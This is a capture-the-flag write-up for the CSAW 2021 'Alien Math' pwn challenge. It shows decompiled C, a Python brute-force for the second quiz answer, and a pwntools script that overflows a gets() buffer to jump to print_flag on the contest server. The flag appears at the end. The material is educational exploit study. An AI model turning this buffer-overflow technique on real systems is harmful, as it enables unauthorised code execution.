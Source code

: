 +++
title = "CSAW CTF Qualification Round 2021 - Alien Math"
date = 2021-09-14
[taxonomies]
tags = ["ctf"]
+++

# Alien Math

## Task description

Brush off your Flirbgarple textbooks!

[alien_math](files/alien_math)

## Solution

The application asks 3 questions and while the first two are implemented correctly the 3rd uses `gets`. So, we have to correctly answer to the first two questions and then just do a simple stack buffer overflow. In addition, there's a function called print_flag which prints the flag.

```c
undefined8 main(void)
{
  int iVar1;
  undefined local_38 [36];
  int local_14;
  long local_10;

  puts("\n==== Flirbgarple Math Pop Quiz ====");
  puts("=== Make an A to receive a flag! ===\n");
  puts("What is the square root of zopnol?");
  fflush(stdout);
  __isoc99_scanf(&DAT_0040220b,&local_14);
  iVar1 = rand();
  local_10 = (long)iVar1;
  if (local_10 == (long)local_14) {
    puts("Correct!\n");
    fflush(stdout);
    getchar();
    puts("How many tewgrunbs are in a qorbnorbf?");
    fflush(stdout);
    __isoc99_scanf(&DAT_00402247,local_38);
    second_question(local_38);
  }
  else {
    puts("Incorrect. That\'s an F for you!");
  }
  return 0;
}
```

The first question does `rand()` without setting the seed and the default seed value is 0 (not always, it depends on the implementation). So it's a constant.

```c
void second_question(char *param_1)
{
  char cVar1;
  int iVar2;
  size_t __n;
  ulong uVar3;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  int local_1c;

  local_1c = 0;
  while( true ) {
    uVar3 = SEXT48(local_1c);
    __n = strlen(param_1);
    if (__n - 1 <= uVar3) {
      local_38 = 3762247539570849591;
      local_30 = 3689067348388623672;
      local_28 = 58489707246130;
      __n = strlen((char *)&local_38);
      iVar2 = strncmp((char *)&local_38,param_1,__n);
      if (iVar2 == 0) {
        puts("Genius! One question left...\n");
        final_question();
        puts("Not quite. Double check your calculations.\nYou made a B. So close!\n");
      }
      else {
        puts("You get a C. No flag this time.\n");
      }
      return;
    }
    if ((param_1[local_1c] < '0') || ('9' < param_1[local_1c])) break;
    cVar1 = param_1[(long)local_1c + 1];
    iVar2 = second_question_function
                      ((ulong)(uint)(int)param_1[local_1c],
                       (ulong)(uint)(param_1[local_1c] + local_1c),
                       (ulong)(uint)(param_1[local_1c] + local_1c));
    iVar2 = (int)cVar1 + -0x30 + iVar2;
    param_1[(long)local_1c + 1] = (char)iVar2 + (char)(iVar2 / 10) * -10 + '0';
    local_1c = local_1c + 1;
  }
  puts("Xolplsmorp! Invalid input!\n");
  puts("You get a C. No flag this time.\n");
  return;
}

ulong second_question_function(int param_1,int param_2)
{
  return (ulong)((uint)((param_1 + -0x30) * 0x30 + (param_2 + -0x30) * 0xb + -4) % 10);
}
```

The second question takes a line, does some operations on it and compares with the hardcoded value. The decompiled code is a bit of a bad quality but it could be summarized to this pseudocode:

```py3
input_str = "12345" # only numbers are allowed
for i in range(len(input_str) - 1):
    input_str[i + 1] = do_something(input_str[i], input_str[i + 1])

if input_str == "7759406485255323229225":
    final_question()
```

Which means that we can bruteforce it easily. A thing to note is that the first letter has to be 7 because it can't be modified (modifications start from index 1).

```py3
from string import digits


def second_func(a, b):
    return ((a - 0x30) * 0x30 + (b - 0x30) * 0xB - 4) % 10


def encrypt(input_str):
    input_str = [ord(c) for c in input_str]

    for i in range(len(input_str) - 1):
        c1 = input_str[i + 1]
        c2 = second_func(input_str[i], input_str[i] + i)

        c3 = c1 - 0x30 + c2

        input_str[i + 1] = c3 - (c3 // 10) * 10 + ord("0")

    input_str = [chr(i) for i in input_str]

    return "".join(input_str)


solutions = ["7"]
encrypted = "7759406485255323229225"

for i in range(len(encrypted) - 1):
    new_solutions = []
    for p in solutions:
        for s in digits:
            o = encrypt(p + s)
            if encrypted.startswith(o):
                new_solutions.append(p + s)

    solutions = new_solutions

print(solutions)
```

```c
void final_question(void)
{
  undefined8 local_18;
  undefined8 local_10;

  local_18 = 0;
  local_10 = 0;
  puts(
      "How long does it take for a toblob of energy to be transferred between two quantum entangledsalwzoblrs?"
      );
  fflush(stdout);
  getchar();
  gets((char *)&local_18);
  return;
}
```

The final exploit.

```py3
from pwn import *

# io = process("./alien_math")
io = remote("pwn.chal.csaw.io", 5004)

io.sendline("1804289383".encode())  # first question

io.sendline("7856445899213065428791".encode())  # second question

payload = b"A" * cyclic_find(0x61616167)
payload += p64(0x004014FB)  # print_flag function address
io.sendline(payload)

io.interactive()
```

The flag: `flag{w3fL15n1Rx!_y0u_r34lLy_4R3_@_fL1rBg@rpL3_m4573R!}`
